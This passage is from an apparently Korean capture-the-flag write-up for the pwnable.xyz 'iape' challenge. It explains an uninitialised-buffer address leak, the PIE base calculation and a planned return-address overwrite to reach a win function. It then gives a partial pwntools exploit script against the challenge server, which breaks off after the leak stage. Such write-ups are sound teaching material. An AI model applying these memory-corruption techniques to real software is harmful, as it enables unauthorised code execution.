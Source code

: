 ![]({{ site.baseurl }}/images/write-up/pwnable_xyz/pwnable%20xyz%20iape/Untitled%204.png)

append 함수에서 서언된 buf 변수는 rbp-0x20 위치에 들어있다. buf+8 위치에 0x555555554bc2 주소가 들어가 있는데,  해당 위치는 

<br>

![]({{ site.baseurl }}/images/write-up/pwnable_xyz/pwnable%20xyz%20iape/Untitled%205.png)

read_int32() 함수의 leave부분의 코드영역이다. 쨋든 이게 중요한게 아니라, buf 변수가 초기화 되지 않은 취약점을 이용하여 해당 주소를 leak할수 있다.

<br>

![]({{ site.baseurl }}/images/write-up/pwnable_xyz/pwnable%20xyz%20iape/Untitled%206.png)

append 함수를 다시 봐보자. 만약 v3이 14이고 8번라인에서 AAAAAAAA(8바이트)만 입력한다면 strncat함수가 수행될 때 al에 buf+14 까지 합쳐지므로 buf+8 ~ buf+14 사이에 들어있는 값을 3번 메뉴를 이용하여 확인 할 수 있다.

leak한 값에서 - 0xbc2를 빼서 base 주소를 얻을 수 있고, 여기에 win함수의 오프셋을 더해서 win함수로 ret을 변경하면 끝이다.

<br>

![]({{ site.baseurl }}/images/write-up/pwnable_xyz/pwnable%20xyz%20iape/Untitled%207.png)

s 변수는 rbp-0x400의 위치에 있으므로, ret를 덮으려면 0x408의 값을 rbp 까지 채워야한다. 또한 rand() 함수 때문에 v3에 담기는 값이 불규칙적이다. 그냥 v3에 담기는 사이즈만큼 이어붙이면 0x408 만큼 딱 채우기는 힘들다. 따라서 이를 잘 코딩으로 조져야 한다. 

<br><br>

### 3. 풀이

---

최종 익스 코드는 다음과 같다

    from pwn import *
    context.log_level="debug"
    #p=process("./challenge",aslr=False)
    #gdb.attach(p)
    
    p=remote("svc.pwnable.xyz",30014)
    p.sendafter("> ","1")
    p.sendlineafter("data: ","A")
    while 1:
            p.sendafter("> ","2")
    	p.recvuntil("me ")
            size=int(p.recvuntil(" ")[:-1])
            log.info("size :: "+str(size))
    	
    	if size == 0:
    		continue
    
            if size >= 14:
                    p.sendafter("chars: ","B"*8)
    		p.sendafter("> ","3")
    		p.recvuntil("message: ")
    		#log.info(p.recv(16)[10:17])
    		#pause()
    		p.recv(10)
    		for_base=p.recv(6)
    		for_base += "\x00\x00"
    		log.info(len(for_base))
                    base_addr=u64(for_base)-0xbc2
    		log.info(hex(base_addr))
    		log.info(hex(base_addr))
    		break;		
            